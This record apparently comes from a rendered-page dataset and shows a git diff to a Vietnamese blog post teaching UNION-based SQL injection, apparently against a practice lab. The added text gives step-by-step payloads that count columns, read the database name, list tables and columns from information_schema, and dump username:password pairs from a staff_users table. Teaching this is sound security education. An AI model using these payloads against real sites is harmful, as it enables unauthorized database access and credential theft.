

Before and after one commit to vietcf/vietchoi, a Jekyll site: the page built from _posts/2025-02-12-sql-injection-attack-back-to-basic.md, in a window 1280 px wide and 1400 px high, scrolled down 5294 px. Shown: the whole window at 93% size, without its empty margins (128-1111 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; before the commit the page ends 5820 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
union sql change

````diff
--- a/_posts/2025-02-12-sql-injection-attack-back-to-basic.md
+++ b/_posts/2025-02-12-sql-injection-attack-back-to-basic.md
@@ -80,14 +80,41 @@
         content TEXT
     );
 ```
-Giả sử web vẫn bật tính năng hiển thị lỗi (Error). Do vậy khi query với câu lệnh sai cú pháp thì lỗi vẫn hiển thị.
+Giả sử web vẫn bật tính năng hiển thị lỗi (Error). Do vậy khi query với câu lệnh sai cú pháp (Số cột lấy từ lệnh SELECT sau UNION không bằng số cột lấy từ lệnh trước UNION) thì lỗi vẫn hiển thị.
+
+Payload: ```1 UNION SELECT 1```
 
 ![sqli technical error base4]({{site.url}}/assets/img/2025/02/12/3-sqli-error-base4.png)
 
 Lỗi chỉ hết khi số lượng cột sau UNION bằng số cột trong câu lệnh SELECT ban đầu để câu lệnh SQL không bị lỗi cú pháp => Ta sẽ xác định được số cột cần thiết sau UNION.
 
-![sqli technical error base4]({{site.url}}/assets/img/2025/02/12/3-sql-injection-error-base5.png)
+Payload: ```1 UNION SELECT 1,2,3```
 
+![sqli technical error base5]({{site.url}}/assets/img/2025/02/12/3-sql-injection-error-base5.png)
+
+Cố gắng xác định vị trí hiển thị của dữ liệu lấy từ UNION
+
+Payload: ```0 UNION SELECT 1,2,3```
+
+![sqli technical error base6]({{site.url}}/assets/img/2025/02/12/3-sql-injection-error-base6.png)
+
+=> Ta có thể xác định vị trí hiển thị của từng phần của Payload với các giá trị 1,2,3.
+
+Tiếp tục lấy tên của CSDL
+
+Payload: ```0 UNION SELECT 1,2,database()```
+
+![sqli technical error base7]({{site.url}}/assets/img/2025/02/12/3-sql-injection-error-base7.png)
+
+Tiếp tục không khó để lấy tên các bảng của CSDL bằng một số Query sau:
+
+```sql
+0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
+0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
+0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
+```
+
+Quá lợi hại phải không các bạn.
 
 # Blind SQLi
 
````
Also changed, not shown: assets/img/2025/02/12/3-sql-injection-error-base6.png (added), assets/img/2025/02/12/3-sql-injection-error-base7.png (added).
